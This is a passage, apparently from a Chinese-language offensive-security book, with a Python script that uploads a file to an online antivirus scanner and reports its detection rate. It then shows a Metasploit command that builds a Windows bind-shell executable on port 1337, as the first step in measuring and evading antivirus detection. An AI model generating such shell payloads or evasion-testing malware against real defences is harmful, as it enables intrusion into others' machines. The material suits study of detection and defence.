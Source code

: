 ```
    location = response.getheader('location')
    conn.close()
    return location
def printResults(url):
    status = 200
    host = urlparse(url)[1]
    path = urlparse(url)[2]
    if 'analysis' not in path:
        while status != 302:
            conn = httplib.HTTPConnection(host)
            conn.request('GET', path)
            resp = conn.getresponse()
            status = resp.status
            print('[+] Scanning file...')
            conn.close()
            time.sleep(15)
    print('[+] Scan Complete.')
    path = path.replace('file', 'analysis')
    conn = httplib.HTTPConnection(host)
    conn.request('GET', path)
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    reResults = re.findall(r'Detection rate:.*\) ', data)
    htmlStripRes = reResults[1].replace('&lt;font color=\'red\'&gt;','').replace('&lt;/font&gt;', '')
    print('[+] ' + str(htmlStripRes))
def main():
    parser = optparse.OptionParser('usage%prog -f <filename>')
    parser.add_option('-f', dest='fileName', type='string', help='specify filename')
    (options, args) = parser.parse_args()
    fileName = options.fileName
    if fileName == None:
        print(parser.usage)
        exit(0)
    elif os.path.isfile(fileName) == False:
        print('[+] ' + fileName + ' does not exist.')
        exit(0)
    else:
        loc = uploadFile(fileName)
        printResults(loc)
if __name__ == '__main__':
    main() 
```

让我们先来测试一个已知的恶意软件来验证杀毒程序是否能成功的检测出来。我们将建立一个 Windows TCP 绑定 shell 绑定 TCP 的 1337 端口。使用 Metasploit 默认的编码器，我们将编码它为一个标准的 Windows 可执行程序。注意结果，我们能看到 14 个杀毒引擎中有 10 个检测出该文件是恶意的，这个文件很明显不能躲避杀毒软件的检测：

```
attacker$ msfpayload windows/shell_bind_tcp LPORT=1337 X > bindshell.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/shell_bind_tcp
Length: 341
Options: {"LPORT"=>"1337"}
attacker$ python virusCheck.py –f bindshell.exe
[+] Uploading file to NoVirusThanks...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
[+] Scanning file...
```